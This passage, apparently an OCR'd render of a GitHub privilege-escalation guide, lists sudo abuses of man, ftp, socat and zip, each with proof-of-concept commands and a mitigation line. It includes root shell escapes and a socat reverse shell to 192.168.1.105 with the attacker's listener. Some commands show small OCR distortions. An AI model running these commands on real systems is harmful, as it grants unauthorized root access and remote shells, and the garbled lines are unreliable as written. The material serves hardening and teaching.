    sudo man man - !bash
    ```
    
    **Mitigation:** Avoid granting `sudo` access to `less` and `man`.
    
    ---
    
    ### 2.1.9 `ftp`
    
    **Command:** `sudo ftp - ! /bin/bash`
    
    **Explanation:** FTP clients like `ftp` allow running shell commands directly. Using `sudo`, an attacker can escape to a root shell with `!` commands.
    
    **PoC:**
    
    ```bash
    sudo ftp - ! /bin/bash
    ```
    
    **Mitigation:** Disable `ftp` with `sudo` or apply restricted shell environments.
    
    ---
    
    ## 2.2 Abusing Network Services with `socat`
    
    **Attacker Setup:**
    
    ```bash
    socat file:`tty`,raw,echo=0 tcp-listen:1234
    ```
    
    **Victim Command:**
    
    ```bash
    sudo socat exec:'sh -li' ,pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
    ```
    
    **Explanation:** `socat` can relay interactive shells over network connections. By pairing the attacker and victim machines, a root shell can be transferred remotely.
    
    **Mitigation:** Remove `socat` from `sudo` permissions to prevent shell forwarding.
    
    ---
    
    ## 2.3 Sudo-Based Archive Manipulation with `zip` and `gcc`
    
    ### 2.3.1 `zip`
    
    **Command:** `echo test > notes.txt; sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"`
    
    **Explanation:** `zip` with `--unzip-command` allows executing commands when unzipping. This can be exploited to open a root shell.
    
    **PoC:**
    